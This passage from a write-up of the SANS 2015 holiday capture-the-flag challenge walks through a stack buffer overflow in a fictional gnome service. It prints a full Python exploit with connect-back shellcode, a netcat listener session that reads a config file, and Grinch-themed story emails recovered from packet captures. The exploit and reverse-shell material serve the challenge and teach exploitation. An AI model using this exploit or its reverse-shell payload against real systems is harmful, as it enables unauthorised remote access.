        recv(sd, &choice, 1, 0);

        switch (choice) {
        case 49:
            fp = popen("/bin/df", "r");
            if (fp == NULL) {
                printf("Failed to run command\n");
                exit(1);
            }
            while (fgets(path, sizeof(path), fp) != NULL) {
                sgnet_writes(sd, path);

            }
            break;

        case 50:
            fp = popen("/bin/netstat -tan", "r");
            if (fp == NULL) {
                printf("Failed to run command\n");
                exit(1);
            }
            while (fgets(path, sizeof(path) - 1, fp) != NULL) {
                sgnet_writes(sd, path);
            }
            break;

        case 51:
            fp = popen("/usr/bin/who", "r");
            if (fp == NULL) {
                printf("Failed to run command\n");
                exit(1);
            }
            while (fgets(path, sizeof(path) - 1, fp) != NULL) {
                sgnet_writes(sd, path);
            }
            break;

        case 88:
            write(sd, "\n\nHidden command detected!\n\n", 32);
            write(sd, "Enter a short message to share with GnomeNet (please allow 10 seconds) => ", 75);
            fflush(stdin);
            sgstatd(sd);

There seems to be a hidden command when we input :code:`88`, which is the
ASCII code of the letter :code:`X`. If we input :code:`X`, the function
:code:`sgstatd` is called. Let's take a look at it:

.. code-block:: c
    :hl_lines: 4 11 12 13

    // File sgstatd.c, line 138
    int sgstatd(sd)
    {
        __asm__("movl $0xe4ffffe4, -4(%ebp)");
        //Canary pushed

        char bin[100];
        write(sd, "\nThis function is protected!\n", 30);
        fflush(stdin);
        //recv(sd, &bin, 200, 0);
        sgnet_readn(sd, &bin, 200);
        __asm__("movl -4(%ebp), %edx\n\t" "xor $0xe4ffffe4, %edx\n\t"   // Canary checked
            "jne sgnet_exit");
        return 0;

    }

Ok, so the function :code:`sgnet_readn` seems to read data from the socket,
and stock it in a buffer. If we look at it, we can see that there is no
boundary checking. What's more, the buffer :code:`bin` only has 100 bytes
allocated, but the program reads and stores 200 bytes of data in it. Can
you say buffer-overflow!

Let's take a look at the binary, to see what kind of security it as. i'm
using the :code:`checksec.sh` (available
`here <https://github.com/slimm609/checksec.sh>`__) script to do so:

.. code-block:: console

    $ /checksec --file sgstatd
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH  FORTIFY FORTIFIED FORTIFY-able  FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No  0       8   sgstatd

Now, make sure you run the script on the binary from the firmware, and not
on a binary you compiled from the source code.

We can see that there is no stack canary, and that :code:`NX` is disabled.
This means that we can put our shellcode directly on the stack. Plus,
:code:`PIE` is also disabled, so we can use a gadget from our base code, and
its position will be the same on the distant binary.

Also there is no stack canary, we can see in the code from the :code:`sgstatd`
function that there is a hardcoded canary: :code:`0xe4ffffe4`. We have to
have this value in our final payload.

Now, let's find a :code:`jmp esp` gadget in our binary, so that we can continue
the flow of execution on the stack. The opcode for such an instruction is
:code:`ff e4`. If this value is familiar, it's because it's used in the custom
stack canary (clever organizers)!

.. code-block:: console

    $ objdump -M intel -d sgstatd | grep "ff e4"
     8049366:   c7 45 fc e4 ff ff e4    mov    DWORD PTR [ebp-0x4],0xe4ffffe4
     80493b2:   81 f2 e4 ff ff e4       xor    edx,0xe4ffffe4

So, our :code:`jmp esp` gadget is available at the address :code:`0x0804936b`.
Let's see the exploit code:

.. code-block:: python

    #!/usr/bin/env python

    import socket

    def main():
        # This is a connect-back shellcode, configured to connect back
        # to a server I own, on the port 8080.
        # Thanks to http://shell-storm.org/shellcode/
        shellcode = str()
        shellcode += '\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1'
        shellcode += '\xcd\x80\x92\xb0\x66\x68\x51\x39\x0B\x02\x66\x68\x1f\x90'
        shellcode += '\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80'
        shellcode += '\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b'
        shellcode += '\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e'
        shellcode += '\x89\xe3\xcd\x80'

        payload = '\x90' * 104 # padding to overwrite the saved value of eip
        payload += '\xe4\xff\xff\xe4' # canary stack
        payload += '\x6b\x93\x04\x08' # address of our 'jump esp' gadget
        payload += '\x6b\x93\x04\x08'
        payload += shellcode
        payload += '\x90' * (200 - len(payload)) # padding to get a length of 200 bytes

        # We connect to our distant server
        sock = socket.socket()
        sock.settimeout(0.5)
        sock.connect(('54.233.105.81', 4242))

        # We receive all the data we can
        try:
            sock.recv(4096)
        except socket.timeout:
            pass

        # We enter the secret command
        sock.send('X')

        # We receive all the data we can
        try:
            for i in xrange(7):
                sock.recv(4096),
        except socket.timeout:
            pass

        # We send our payload
        sock.send(payload)

        return 0

    if __name__ == '__main__':
        main()

We launch our exploit:

.. code-block:: console

    $ ./exploit_sg05.py

And in another terminal, on the server I own:

.. code-block:: console

   $ nc -lvp 8080
   listening on [any] 8080 ...
   connect to [192.168.XX.XX] from ec2-54-233-105-81.sa-east-1.compute.amazonaws.com [54.233.105.81] 42021
   cat /gnome/www/files/gnome.conf
   Gnome Serial Number: 4CKL3R43V4
   Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
   Allow new subordinates?: YES
   Camera monitoring?: YES
   Audio monitoring?: YES
   Camera update rate: 60min
   Gnome mode: SuperGnome
   Gnome name: SG-05
   Allow file uploads?: YES
   Allowed file formats: .png
   Allowed file size: 512kb
   Files directory: /gnome/www/files/

The flag for this SuperGnome is :code:`4CKL3R43V4`
(`geeky reference <http://www.sou.edu/cs/lynnackler.html>`__).


Part 5: Baby, It’s Gnome Outside: *Sinister Plot and Attribution*
-----------------------------------------------------------------

We can see on the SuperGnomes some capture files, inside ZIP archives. We can
also see from a conversation on the GnomeNET on the SuperGnomes that someone
has a problem with the pictures taken by the gnomes: if some gnomes have the
same name, the uploaded images get scrambled together (the RGB pixels are
XORed with one another):

    Welcome to GnomeNET.

    I noticed an issue when there are multiple child-gnomes with the same name.
    The image feeds become scrambled together. Any way to resolve this other
    than rename the gnomes?? ~DW

    Can you provide an example of the scrambling you're seeing? ~PS

    I uploaded 'camera_feed_overlap_error.png' to SG-01. We have six factory
    test cameras all named the same. The issue occurs only when they have the
    same name. It occurs even if the cameras are not transmitting an image. ~PS

    Oh, also, in the image, 5 of the cameras are just transmitting the 'camera
    disabled' static, the 6th one was in the boss' office. The door was locked
    and the boss seemed busy, so I didn't mess with that one. ~PS

    To help me troubleshoot this, can you grab a still from all six cameras at
    the same time? Also, is this really an issue? ~DW

    I grabbed a still from 5 of the 6 cameras, again, staying out of the boss'
    office! Each cam is directed to a different SG, so each SG has one of the
    5 stills I manually snagged. I named them 'factory_cam_#.png' and pushed
    them up to the files menu. 'camera_feed_overlap_error.png' has that garbled
    image. Oh, and to answer your question. Yes. We have almost 2 million
    cameras... some of them WILL be named the same. Just fix it. ~PS

    Took a look at your issue. It looks like the camera feed collector only
    cares about the name and will merge the feeds. Looks like each pixel is
    XORed... Its going to be a lot of work to fix this. We are too late in
    the game to push a new update to all the cameras... stop naming cameras
    the same name. ~DW

So we have six images: five from some gnomes and one from the boss' office.
By recovering the five images and XORing them with the sixth image, we can
see an image from the boss' office!

By using the vulnerabilities from Part 4, we can recover the capture file
and the images.

You can download the capture files here:

* `First capture file </docs/sans-christmas-challenge-2015/20141226101055_1.pcap>`__
  (sha256: :code:`a15a537562a4c828bf9eebd09f8f99686df76a4854a741a2df63902a023a1cea`)
* `Second capture file </docs/sans-christmas-challenge-2015/20150225093040_2.pcap>`__
  (sha256: :code:`d4481450877d1468fba6c038f2a2c7b72eaab80540dda07fcc28b0a63045bd0c`)
* `Third capture file </docs/sans-christmas-challenge-2015/20151201113358_3.pcap>`__
  (sha256: :code:`f12950e677cfa1646c1c616a62d063497cf0d2cc9cea3a0167ad302a02b682c8`)
* `Fourth capture file </docs/sans-christmas-challenge-2015/20151203133818_4.pcap>`__
  (sha256: :code:`45f076467bdd69d4855d21726f398f246b7179e499fde663b4f6c7e77ba39025`)
* `Fifth capture file </docs/sans-christmas-challenge-2015/20151215161015_5.pcap>`__
  (sha256: :code:`5a637e03e9a2ea4b4fde5437eabd281d2e78c6b383a31f0e705dd9da2ec6c12a`)

You can download the images here:

* `First factory image </images/sans-christmas-challenge-2015/factory_cam_1.png>`__
* `Second factory image </images/sans-christmas-challenge-2015/factory_cam_2.png>`__
* `Third factory image </images/sans-christmas-challenge-2015/factory_cam_3.png>`__
* `Fourth factory image </images/sans-christmas-challenge-2015/factory_cam_4.png>`__
* `Fifth factory image </images/sans-christmas-challenge-2015/factory_cam_5.png>`__
* `Camera overlay image </images/sans-christmas-challenge-2015/camera_feed_overlap_error.png>`__

Let's look at the capture files first. By opening them with Wireshark,
we can see some SMTP and IMAP traffic.By using the wonderful
"Follow TCP Stream" functionnality, we can recover the full traffic.

First capture file
~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <jojo@atnascorp.com>
    Subject: GiYH Architecture
    Date: Fri, 26 Dec 2014 10:10:55 -0500

    JoJo,

    As you know, I hired you because you are the best architect in town for a
    distributed surveillance system to satisfy our rather unique business
    requirements.  We have less than a year from today to get our final plans in
    place.  Our schedule is aggressive, but realistic.

    I've sketched out the overall Gnome in Your Home architecture in the diagram
    attached below.  Please add in protocol details and other technical
    specifications to complete the architectural plans.

    Remember: to achieve our goal, we must have the infrastructure scale to
    upwards of 2 million Gnomes.  Once we solidify the architecture, you'll work
    with the hardware team to create device specs and we'll start procuring
    hardware in the February 2015 timeframe.

    I've also made significant progress on distribution deals with retailers.

    Thoughts?

    Looking forward to working with you on this project!

    -C

Attached to this email is this image:

.. image:: /images/sans-christmas-challenge-2015/giyh_architecture.jpg
    :alt: giyh_architecture.jpg
    :align: center

Second capture file
~~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <supplier@ginormouselectronicssupplier.com>
    Subject: Large Order - Immediate Attention Required
    Date: Wed, 25 Feb 2015 09:30:39 -0500

    Maratha,

    As a follow-up to our phone conversation, we'd like to proceed with an order
    of parts for our upcoming product line.  We'll need two million of each of
    the following components:

    * Ambarella S2Lm IP Camera Processor System-on-Chip (with an ARM Cortex A9
      CPU and Linux SDK)
    * ON Semiconductor AR0330: 3 MP 1/3" CMOS Digital Image Sensor
    * Atheros AR6233X Wi-Fi adapter
    * Texas Instruments TPS65053 switching power supply
    * Samsung K4B2G16460 2GB SSDR3 SDRAM
    * Samsung K9F1G08U0D 1GB NAND Flash

    Given the volume of this purchase, we fully expect the 35% discount you
    mentioned during our phone discussion.  If you cannot agree to this pricing,
    we'll place our order elsewhere.

    We need delivery of components to begin no later than April 1, 2015, with
    250,000 units coming each week, with all of them arriving no later than June
    1, 2015.


    Finally, as you know, this project requires the utmost secrecy.   Tell NO
    ONE about our order, especially any nosy law enforcement authorities.

    Regards,

    -CW

Third capture file
~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <burglerlackeys@atnascorp.com>
    Subject: All Systems Go for Dec 24, 2015
    Date: Tue, 1 Dec 2015 11:33:56 -0500

    My Burgling Friends, 

    Our long-running plan is nearly complete, and I'm writing to share the date
    when your thieving will commence!  On the morning of December 24, 2015, each
    individual burglar on this email list will receive a detailed itinerary of
    specific houses and an inventory of items to steal from each house, along
    with still photos of where to locate each item.  The message will also
    include a specific path optimized for you to hit your assigned houses
    quickly and efficiently the night of December 24, 2015 after dark.

    Further, we've selected the items to steal based on a detailed analysis of
    what commands the highest prices on the hot-items open market.  I caution
    you - steal only the items included on the list.  DO NOT waste time grabbing
    anything else from a house.  There's no sense whatsoever grabbing crumbs too
    small for a mouse!

    As to the details of the plan, remember to wear the Santa suit we provided
    you, and bring the extra large bag for all your stolen goods.

    If any children observe you in their houses that night, remember to tell
    them that you are actually "Santy Claus", and that you need to send the
    specific items you are taking to your workshop for repair.  Describe it in a
    very friendly manner, get the child a drink of water, pat him or her on the
    head, and send the little moppet back to bed.  Then, finish the deed, and
    get out of there.  It's all quite simple - go to each house, grab the loot,
    and return it to the designated drop-off area so we can resell it.  And,
    above all, avoid Mount Crumpit! 

    As we agreed, we'll split the proceeds from our sale 50-50 with each
    burglar.

    Oh, and I've heard that many of you are asking where the name ATNAS comes
    from.  Why, it's reverse SANTA, of course.  Instead of bringing presents on
    Christmas, we'll be stealing them!

    Thank you for your partnership in this endeavor. 

    Signed:

    -CLW

    President and CEO of ATNAS Corporation

Fourth capture file
~~~~~~~~~~~~~~~~~~~

::

    From: "c" <c@atnascorp.com>
    To: <psychdoctor@whovillepsychiatrists.com>
    Subject: Answer To Your Question
    Date: Thu, 3 Dec 2015 13:38:15 -0500

    Dr. O'Malley,

    In your recent email, you inquired:

    > When did you first notice your anxiety about the holiday season?

    Anxiety is hardly the word for it.  It's a deep-seated hatred, Doctor.

    Before I get into details, please allow me to remind you that we operate
    under the strictest doctor-patient confidentiality agreement in the
    business.  I have some very powerful lawyers whom I'd hate to invoke in the
    event of some leak on your part.  I seek your help because you are the best
    psychiatrist in all of Who-ville.

    To answer your question directly, as a young child (I must have been no more
    than two), I experienced a life-changing interaction.  Very late on
    Christmas Eve, I was awakened to find a grotesque green Who dressed in a
    tattered Santa Claus outfit, standing in my barren living room, attempting
    to shove our holiday tree up the chimney.  My senses heightened, I put on my
    best little-girl innocent voice and asked him what he was doing.  He
    explained that he was "Santy Claus" and needed to send the tree for repair.
    I instantly knew it was a lie, but I humored the old thief so I could escape
    to the safety of my bed.  That horrifying interaction ruined Christmas for
    me that year, and I was terrified of the whole holiday season throughout my
    teen years.

    I later learned that the green Who was known as "the Grinch" and had lost
    his mind in the middle of a crime spree to steal Christmas presents.  At the
    very moment of his criminal triumph, he had a pitiful change of heart and
    started playing all nicey-nice.  What an amateur!  When I became an adult,
    my fear of Christmas boiled into true hatred of the whole holiday season.  I
    knew that I had to stop Christmas from coming.  But how?

    I vowed to finish what the Grinch had started, but to do it at a far larger
    scale.  Using the latest technology and a distributed channel of burglars,
    we'd rob 2 million houses, grabbing their most precious gifts, and selling
    them on the open market.  We'll destroy Christmas as two million homes full
    of people all cry "BOO-HOO", and we'll turn a handy profit on the whole
    deal.

    Is this "wrong"?  I simply don't care.  I bear the bitter scars of the
    Grinch's malfeasance, and singing a little "Fahoo Fores" isn't gonna fix
    that!

    What is your advice, doctor?

    Signed,

    Cindy Lou Who

Fifth capture file
~~~~~~~~~~~~~~~~~~

::

    From: "Grinch" <grinch@who-villeisp.com>
    To: <c@atnascorp.com>
    Subject: My Apologies & Holiday Greetings
    Date: Tue, 15 Dec 2015 16:09:40 -0500

    Dear Cindy Lou,

    I am writing to apologize for what I did to you so long ago.  I wronged you
    and all the Whos down in Who-ville due to my extreme misunderstanding of
    Christmas and a deep-seated hatred.  I should have never lied to you, and I
    should have never stolen those gifts on Christmas Eve.  I realize that even
    returning them on Christmas morn didn't erase my crimes completely.  I seek
    your forgiveness.

    You see, on Mount Crumpit that fateful Christmas morning, I learned th[4 bytes missing in capture file]at
    Christmas doesn't come from a store.  In fact, I discovered that Christmas
    means a whole lot more!

    When I returned their gifts, the Whos embraced me.  They forgave.  I was
    stunned, and my heart grew even more.  Why, they even let me carve the roast
    beast!  They demonstrated to me that the holiday season is, in part, about
    forgiveness and love, and that's the gift that all the Whos gave to me that
    morning so long ago.  I honestly tear up thinking about it.

    I don't expect you to forgive me, Cindy Lou.  But, you have my deepest and
    most sincere apologies.

    And, above all, don't let my horrible actions from so long ago taint you in
    any way.  I understand you've grown into an amazing business leader.  You
    are a precious and beautiful Who, my dear.  Please use your skills wisely
    and to help and support your fellow Who, especially during the holidays.

    I sincerely wish you a holiday season full of kindness and warmth,

    --The Grinch

Let's unXOR the images
~~~~~~~~~~~~~~~~~~~~~~

With a simple Python script, we can take every image and XOR the RGB pixels
to recover the image from the boss' office:

.. code-block:: python

    #!/usr/bin/env python

    import sys
    from PIL import Image

    def main():
        # We open the camera feed overlap image
        scrambled_image = Image.open(sys.argv[6]).convert('RGB')
        scrambled_image_pixels = scrambled_image.load()
        width, height = scrambled_image.size

        # For every image found in one of the SuperGnomes
        for image in sys.argv[1:6]:
            image_pixels = Image.open(image).convert('RGB').load()
            for i in xrange(width):
                for j in xrange(height):
                    # We take the RGB components
                    r1, g1, b1 = scrambled_image_pixels[i, j]
                    r2, g2, b2 = image_pixels[i, j]
                    # And we XOR them to recover the original value
                    scrambled_image_pixels[i, j] = (r1 ^ r2, g1 ^ g2, b1 ^ b2)

        # We save the result in a new image
        scrambled_image.save('result.png', 'PNG')

        return 0

    if __name__ == '__main__':
        main()

Then, we just have to run this script:

.. code-block:: console

    $ ./unxor_images.py sg01/factory_cam_1.png sg02/factory_cam_2.png sg03/factory_cam_3.png \
        sg04/factory_cam_4.png sg05/factory_cam_5.png camera_feed_overlap_error.png

This gives us the resulting image:

.. image:: /images/sans-christmas-challenge-2015/sans_xor_image_result.png
    :alt: sans_xor_image_result.png    
    :align: center

Epilogue: ‘Twas the Gnome Before Christmas: *Wrapping It All Up*
----------------------------------------------------------------

As in every SANS Christmas Challenge, we have to answer several
questions:

1. Which commands are sent across the Gnome’s command-and-control
   channel?

The command sent to the command-and-control server are :code:`iwconfig` and
:code:`cat /tmp/iwlistscan.txt`.

2. What image appears in the photo the Gnome sent across the
   channel from the Dosis home?

We can see a picture of Josh's bedroom.

3. What operating system and CPU type are used in the Gnome?
   What type of web framework is the Gnome web interface built in?

The Gnome is running OpenWRT in the development branch.
Its CPU architecture is 32-bit ARM. The web interface is built
with NodeJS, with Jade Node as the template engine.

4. What kind of a database engine is used to support the Gnome web
   interface? What is the plaintext password stored in the Gnome database?

The database engine is MongoDB. The plaintex password is
:code:`SittingOnAShelf`.

5. What are the IP addresses of the five SuperGnomes scattered around the
   world, as verified by Tom Hessman in the Dosis neighborhood?
6. Where is each SuperGnome located geographically?

* SuperGnome01: 52.2.229.189, located in United States, Ashburn (VI)
* SuperGnome02: 52.34.3.80, located in United States, Portland (OR)
* SuperGnome03: 52.64.191.71, located in Australia, Sydney
* SuperGnome04: 52.192.152.132, located in Japan, Tokyo
* SuperGnome05: 54.233.105.81, located in Brazil, Sao Paulo

7. Please describe the vulnerabilities you discovered in the
   Gnome firmware.
8. Describe the technique you used to gain access to each SuperGnome’s
   gnome.conf file.

* SuperGnome01: Credentials stored in plaintext. Reuse of credentials.
* SuperGnome02: Arbitrary folder creation. Local file inclusion.
* SuperGnome03: NoSQL injection
* SuperGnome04: Server Side JavaScript injection
* SuperGnome05: Buffer-overflow

9. Based on evidence you recover from the SuperGnomes’ packet capture ZIP
   files and any staticky images you find, what is the nefarious plot of
   ATNAS Corporation?

The plot of the ATNAS Corporation is to sell millions of Gnomes to families,
so that they can identify valuable objects, and then come and steal it during
Christmas night, by disguising themselves as Santy Claus.

10. Who is the villain behind the nefarious plot?

The villain is none other that
`Cindy Lou Who <http://seuss.wikia.com/wiki/Cindy_Lou_Who>`__. After being
traumatised by the Grinch stealing Christmas, she has developped a deep
hatred for this holiday.

Conclusion
----------

I really enjoyed doing this challenge, because it allowed me to develop
my skills in technologies I'm not familiar with, such as NoSQL database
engines, or buffer-overflow (something I should really work on).

Many thanks to the SANS institute for this incredible Christmas Challenge!
